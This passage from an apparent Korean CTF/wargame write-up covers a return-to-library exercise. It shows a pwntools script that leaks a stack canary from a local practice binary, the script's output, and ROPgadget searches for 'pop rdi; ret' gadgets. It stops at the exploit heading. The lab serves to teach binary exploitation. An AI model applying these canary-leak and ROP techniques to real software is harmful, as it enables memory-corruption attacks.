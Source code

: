 ```python
from pwn import *

p = process("./rtl")
e = ELF("./rtl")

#context.log_level = 'debug'

def slog(name, addr):
    return success(": ".join([name, hex(addr)]))


# [1] Leak canary
buf = b'A'*57
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
canary = u64(b'\x00' + p.recvn(7))
slog("canary", canary)
```

#

```bash
$ python3 ex.py
[+] Starting local process './rtl': pid 2430
[*] '/home/ion/dreamhack/Exploit_Tech_Return_to_Library/rtl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] canary: 0x73165ee71934d500
[*] Stopped process './rtl' (pid 2430)
```

<br>

**리턴 가젯 찾기**

```bash
$ ROPgadget --binary ./rtl --re "pop rdi"
Gadgets information
============================================================
0x0000000000400853 : pop rdi ; ret
$ ROPgadget --binary ./rtl --re "ret"
Gadgets information
============================================================
0x0000000000400596 : ret
```

`pop rdi; ret : 0x0000000000400853`
`ret : 0x0000000000400596`

<br>

**익스플로잇**
